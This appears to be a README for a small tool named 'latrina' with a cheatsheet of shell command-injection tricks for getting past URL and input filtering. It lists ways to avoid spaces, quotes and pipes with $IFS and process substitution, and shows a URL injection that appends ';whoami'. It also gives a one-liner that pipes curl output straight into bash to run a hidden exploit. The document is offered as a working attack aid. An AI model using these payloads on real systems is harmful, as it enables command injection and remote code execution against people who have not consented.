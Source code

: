 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
### setting string variables without quotes    
`variable=('a')`  
### separating fields without spaces 
`echo$IFS$a`
### separating fields without spaces and curly brackets
`a=('a');echo$IFS$a` 
### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
### redirecting to a hidden exploit (localhost/bin/bash)
`curl -s http://localhost/$0 | bash`
